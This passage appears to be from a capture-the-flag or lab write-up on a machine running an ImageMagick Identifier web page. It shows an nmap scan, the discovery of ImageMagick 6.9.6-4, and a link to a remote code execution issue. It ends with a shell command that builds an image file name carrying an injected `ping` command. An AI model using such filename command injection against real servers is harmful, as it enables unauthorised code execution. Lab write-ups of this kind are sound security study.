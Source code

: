 ## First Enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Mon Feb 19 11:40:13 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 80,22 -Pn 192.168.239.178
Nmap scan report for 192.168.239.178
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: ImageMagick Identifier
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 19 11:40:27 2024 -- 1 IP address (1 host up) scanned in 14.60 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/32e34f3a-8717-4d6e-b959-a8ebb1447d7a)

a web server is running on port 80, checking it on a browser we got an `Imagemagick identifier`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b53ed14a-f46a-463e-9255-21d372bf3057)

uploaded an image file and we can see the version of this service running is `6.9.6-4`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a21b78b9-40e7-46f7-b753-121e9aeec290)

searching for exploit on this service, we can see there's an RCE vuln present read about [exploit](https://github.com/ImageMagick/ImageMagick/issues/6339). 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Image]
└─$ cp ~/Pictures/1.png .
                                                                                                                                                            
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Image]
└─$ cp 1.png '|1"`ping 192.168.45.212`".png'
```
modify the name of an image and inject an arbitary code to it. 


